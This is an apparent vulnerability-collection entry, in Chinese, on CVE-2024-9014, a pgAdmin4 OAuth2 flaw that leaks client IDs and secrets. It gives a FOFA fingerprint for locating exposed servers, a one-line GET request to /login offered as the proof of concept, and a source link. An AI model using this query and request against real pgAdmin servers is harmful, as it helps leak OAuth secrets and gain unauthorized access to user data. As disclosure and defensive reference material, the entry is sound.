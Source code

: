 # pgAdmin4敏感信息泄露漏洞(CVE-2024-9014)

CVE-2024-9014 pgAdmin4 敏感信息泄露 ，pgAdmin 版本 8.11 及更早版本容易受到 OAuth2 身份验证中的安全缺陷的影响。此漏洞允许攻击者获取客户端 ID 和机密，从而导致对用户数据的未经授权的访问。

## fofa

```javascript
icon_hash="1502815117"
```

## poc

```javascript
GET /login?next=/ HTTP/1.1
Host: 192.168.31.135:5050

```

![1](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202410061603750.png)



## 漏洞来源

- https://github.com/EQSTLab/CVE-2024-9014